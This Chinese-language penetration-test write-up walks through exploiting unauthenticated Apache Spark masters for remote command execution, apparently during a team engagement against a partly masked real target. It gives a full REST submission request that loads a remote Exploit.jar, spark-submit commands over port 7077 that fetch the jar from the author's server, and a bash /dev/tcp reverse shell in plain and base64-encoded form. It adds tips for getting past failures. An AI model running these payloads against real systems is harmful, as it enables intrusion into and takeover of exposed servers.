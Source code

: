 ### 坑点总结
1、搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名  
2、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，原因未知  
3、当payload位于github上时，需考虑目标可能获取不到  
4、spark-submit下载后，执行时会报错，经排查原因是缺少依赖，改用下载更全的安装包spark-2.4.3-bin-hadoop2.7.tgz  

1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，尝试打点，故有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，直接打失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)能够成功访问，环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败，思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求  
成功获得响应，响应中包含driverId的值，然后用driverId的值替换下面的值，并访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

本地测试针对7077端口的漏洞利用  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell，思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，借助如下网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell，继续排查，查看Exploit.jar的源代码发现，原作者是将
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell

参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
